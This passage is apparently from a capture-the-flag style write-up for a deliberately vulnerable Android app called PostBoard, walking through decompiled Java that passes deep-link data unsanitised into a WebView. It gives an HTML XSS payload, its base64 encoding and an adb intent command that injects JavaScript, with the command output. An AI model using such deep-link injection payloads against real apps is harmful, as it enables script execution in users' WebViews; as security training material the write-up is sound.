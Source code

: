```java
            activityMainBinding2 = null;
        }
        activityMainBinding2.webView.loadUrl("javascript:WebAppInterface.postMarkdownMessage('" + message + "')");
    } catch (Exception e) {
        ActivityMainBinding activityMainBinding3 = this.binding;
        if (activityMainBinding3 == null) {
            Intrinsics.throwUninitializedPropertyAccessException("binding");
        } else {
            activityMainBinding = activityMainBinding3;
        }
        activityMainBinding.webView.loadUrl("javascript:WebAppInterface.postCowsayMessage('" + e.getMessage() + "')");
    }
}
```

The `handleIntent()` has some simple steps. First it gets an intent checks if the action is `android.intent.action.VIEW`, the intent data is not equal to `null`, the data scheme is `postboard://` and the intent data host is `postmessage`. It then takes the path , base64 encodes it and replaces `'` with `\\` to get the message. The message is then loaded in the webview as follows `activityMainBinding2.webView.loadUrl("javascript:WebAppInterface.postMarkdownMessage('" + message + "')");`. Now based on that we can try to display any content in the webviev using `adb`. Let's try and inject some javascript code and see if it works.

Html code

```shell
<img src=x onerror=alert(document.location.href)>
```

Base64 encoded string

```shell
PGltZyBzcmM9eCBvbmVycm9yPWFsZXJ0KGRvY3VtZW50LmxvY2F0aW9uLmhyZWYpPg==
```

adb command

```shell
pl4int3xt@archlinux ~/D/mobile-hacking> adb shell am start -n "com.mobilehackinglab.postboard/.MainActivity" -a "android.intent.action.VIEW" -d "postboard://postmessage/PGltZyBzcmM9eCBvbmVycm9yPWFsZXJ0KGRvY3VtZW50LmxvY2F0aW9uLmhyZWYpPg=="
Starting: Intent { act=android.intent.action.VIEW dat=postboard://postmessage/... cmp=com.mobilehackinglab.postboard/.MainActivity }
```

Running the command we were able to inject javascript.
